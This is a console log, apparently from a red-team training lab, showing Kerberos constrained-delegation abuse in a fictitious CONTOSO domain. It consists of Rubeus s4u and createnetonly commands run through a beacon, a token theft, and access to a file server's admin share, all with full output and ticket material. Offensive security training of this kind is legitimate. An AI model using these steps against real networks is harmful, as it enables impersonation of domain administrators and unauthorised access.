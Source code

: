 ```batch

    ServiceName              :  krbtgt/CONTOSO.COM
    ServiceRealm             :  CONTOSO.COM
    UserName                 :  LON-WKSTN-1$ (NT_PRINCIPAL)
    UserRealm                :  CONTOSO.COM
    StartTime                :  21/02/2025 14:17:54
    EndTime                  :  22/02/2025 00:16:11
    RenewTill                :  28/02/2025 14:16:11
    Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  Gv0JODuazH1s79IqvftcBcxr8zo131LNay3BM0xnPcw=
    Base64EncodedTicket   :

      doIFr[...snip...]kNPTQ==
      
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:LON-WKSTN-1$ /impersonateuser:Administrator /msdsspn:cifs/lon-fs-1 /ticket:doIFr[...snip...]kNPTQ== /nowrap

[*] Action: S4U

[*] Building S4U2self request for: 'LON-WKSTN-1$@CONTOSO.COM'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2self request to 10.10.120.1:88
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'LON-WKSTN-1$@CONTOSO.COM'
[*] base64(ticket.kirbi):

      doIF+[...snip...]4tMSQ=

[*] Impersonating user 'Administrator' to target SPN 'cifs/lon-fs-1'
[*] Building S4U2proxy request for service: 'cifs/lon-fs-1'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2proxy request to domain controller 10.10.120.1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/lon-fs-1':

      doIGh[...snip...]nMtMQ==

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:doIGh[...snip...]nMtMQ==

[*] Using CONTOSO.COM\Administrator:FakePass

[*] Showing process : False
[*] Username        : Administrator
[*] Domain          : CONTOSO.COM
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 4568
[+] Ticket successfully imported!
[+] LUID            : 0x1355200

beacon> steal_token 4568
beacon> ls \\lon-fs-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     01/23/2025 15:44:52   $Recycle.Bin
          dir     01/23/2025 13:57:51   $WinREAgent
          dir     01/23/2025 13:47:37   Documents and Settings
          dir     02/20/2025 10:37:21   Files
          dir     05/08/2021 09:20:24   PerfLogs
```